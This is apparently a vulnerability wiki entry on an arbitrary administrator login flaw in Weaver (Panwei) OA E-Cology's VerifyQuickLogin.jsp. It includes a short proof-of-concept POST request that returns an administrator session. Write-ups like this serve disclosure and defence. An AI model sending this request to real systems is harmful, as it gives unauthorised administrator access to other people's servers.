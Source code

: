 # Panwei OA E-Cology VerifyQuickLogin.jsp Any administrator login vulnerability

## Vulnerability Description

There is an arbitrary administrator login vulnerability in the Panwei OA E-Cology VerifyQuickLogin.jsp file, which attacks the administrator session by sending a special request package.

## Vulnerability Impact

Panwei OA E-Cology

## Network surveying and mapping



## Vulnerability reappears

Product Home Page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1659252985356-45185f65-d899-4374-bfa1-b4d7cf397298.png)

Verify POC

```php
POST /mobile/plugin/VerifyQuickLogin.jsp
  
identifier=1&language=1&ipaddress=x.x.x.x
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1659253382744-eb36ef30-038a-4bb3-8d69-d924411bcf00.png)